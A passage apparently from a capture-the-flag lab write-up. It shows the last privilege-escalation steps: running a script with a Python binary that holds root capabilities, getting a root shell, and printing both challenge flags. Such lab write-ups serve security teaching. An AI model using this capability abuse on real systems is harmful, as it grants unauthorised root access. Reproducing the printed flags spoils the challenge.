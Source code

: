 **Make the script executable**:

```bash
chmod +x /tmp/rootme.py
```

**Run the script** with your privileged Python binary:

```
/tmp/mypython /tmp/rootme.py
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250610131649.png)

As seen, we get a root shell exploiting the root capabilities we assigned, let's get both flags:

```
root@desktop:/tmp# cat /home/annie/user.txt
THM{N0t_Ju5t_ANY_D3sk}

root@desktop:/tmp# cat /root/root.txt
THM{0nly_th3m_5.5.2_D3sk}
```

### Fun Fact

***

As a fun fact, this box included a 1 month voucher for the blood taker:

![](gitbook/cybersecurity/images/Pasted%20image%2020250610131926.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250610131827.png)
